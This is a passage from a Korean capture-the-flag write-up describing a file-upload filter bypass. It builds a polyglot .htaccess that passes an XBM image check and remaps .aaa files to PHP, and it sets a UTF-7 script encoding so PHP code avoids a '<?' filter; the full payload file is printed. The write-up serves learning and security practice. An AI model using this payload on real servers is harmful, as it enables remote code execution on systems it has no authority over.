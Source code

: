 ```
#define test_width 16
#define test_height 7
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```

즉, 파일의 시작은 `#`으로 시작하며, 내가 파일의 `width`와 `height`도 설정할 수 있다.  

그런데 `#` 뒤의 문자열은 `.htaccess`에서 주석으로 해석한다.  

따라서 `.htaccess` 파일 상단에 `xbm` 파일처럼 `width`와 `height`의 크기를 설정 해 준다면, `exif_imagetype()`도 통과하고, 마지막에 이미지의 가로와 세로의 길이가 `1337` 이어야 하는 조건문을 통과하면서 `.htaccess`에서는 해당 줄을 주석으로 처리 해 무시하게 될 것이다.  

이 내용들을 바탕으로 다시 `.htaccess` 파일의 내용을 구성하면 다음과 같다.  

```
#define test_width 1337
#define test_height 1337

AddType application/x-httpd-php .aaa
```

다 된 것 같았는데 또 하나의 문제점이 있었다.  

바로 `<?`를 사용할 수 없다는 점이었다.  

그래서 `.htaccess`에 대해서 검색하다가 인터넷에서 [htaccess 치트엔진](https://github.com/sektioneins/pcc/wiki/PHP-htaccess-injection-cheat-sheet)을 찾을 수 있었다.  

나는 여기에서 아래와 같은 부분을 사용하기로 했다.  

![](/images/mingzzi/l33t-writeup/l33t_02.png)  

그래서 변경 한 `.htaccess`는 다음과 같다.  

* .htaccess (업로드 할 때는 ..htaccess)
```
#define test_width 1337
#define test_height 1337
AddType application/x-httpd-php .aaa
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```
